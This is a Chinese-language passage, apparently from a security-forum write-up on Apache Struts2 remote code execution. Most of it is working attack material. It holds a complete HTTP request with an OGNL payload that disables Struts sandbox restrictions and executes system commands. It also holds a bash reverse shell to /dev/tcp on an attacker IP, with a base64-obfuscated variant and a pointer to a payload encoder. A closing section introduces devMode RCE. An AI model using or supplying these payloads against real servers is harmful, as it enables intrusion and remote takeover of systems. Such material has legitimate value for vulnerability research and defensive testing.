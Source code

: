 ![image-20210711214711634](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-df32a57b2eb368655d96222cc2cfae68244141b6.png)

##### poc-1

```php
POST /index.action HTTP/1.1
Host: 192.168.173.144:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+x ml,application/x ml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.173.144:8080/index.action
Cookie: JSESSIONID=node01k3pu3katilv7msftp5e7xu3u2.node0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name=&quot;id&quot;

%{(#instancemanager=#application[&quot;org.apache.tomcat.InstanceManager&quot;]).(#stack=#attr[&quot;com.opensymphony.xwork2.util.ValueStack.ValueStack&quot;]).(#bean=#instancemanager.newInstance(&quot;org.apache.commons.collections.BeanMap&quot;)).(#bean.setBean(#stack)).(#context=#bean.get(&quot;context&quot;)).(#bean.setBean(#context)).(#macc=#bean.get(&quot;memberAccess&quot;)).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance(&quot;java.util.HashSet&quot;)).(#bean.put(&quot;excludedClasses&quot;,#emptyset)).(#bean.put(&quot;excludedPackageNames&quot;,#emptyset)).(#arglist=#instancemanager.newInstance(&quot;java.util.ArrayList&quot;)).(#arglist.add(&quot;id&quot;)).(#execute=#instancemanager.newInstance(&quot;freemarker.template.utility.Execute&quot;)).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![image-20210711215812966](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dcbd3393f3e8f2e2cfbe1fe65e99b78258a5d490.png)

##### poc-2 反弹shell

```php
B ase64编码网址：
http://www.jackson-t.ca/runtime-exec-payloads.html   
bash -i &gt;&amp; /dev/tcp/192.168.173.133/8889 0&gt;&amp;1
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvODg4OSAwPiYx}|{B ase64,-d}|{bash,-i}
```

![image-20210711220203033](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1602eeb559c0f10ecf6c7ced46f206f4e19dd9ab.png)

##### 替换poc-1中的id位置即可。

### 4.20 S2-devMode远程代码执行漏洞

#### 漏洞原理

##### 当Struts2开启devMode模式时，将导致严重远程代码执行漏洞。如果WebService 启动权限为最高权限时，可远程执行任意命令，包括关机、建立新用户、以及删除服务器上所有文件等等。
